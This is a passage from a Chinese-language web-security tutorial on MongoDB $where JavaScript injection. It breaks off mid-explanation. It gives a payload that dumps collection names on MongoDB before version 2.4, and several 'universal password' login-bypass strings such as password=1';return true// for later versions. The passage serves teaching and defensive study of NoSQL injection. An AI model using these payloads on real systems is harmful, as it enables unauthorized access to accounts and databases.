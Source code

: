 - **MongoDB 2.4 之前**

在 MongoDB 2.4 之前，通过 `$where` 操作符使用 `map-reduce`、`group` 命令可以访问到 Mongo Shell 中的全局函数和属性，如 `db`，也就是说可以通过自定义 JavaScript 函数来获取数据库的所有信息。

如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

```sql
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```

- **MongoDB 2.4 之后**

MongoDB 2.4 之后 `db` 属性访问不到了，但我们依然可以构造万能密码。如果此时我们发送以下这几种数据：

```sql
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```

如下图所示，成功查出所有的用户信息：

![image-20230513184736661](picture/image-20230513184736661.png)

这是因为发送 payload 进入 PHP 后的数据如下：
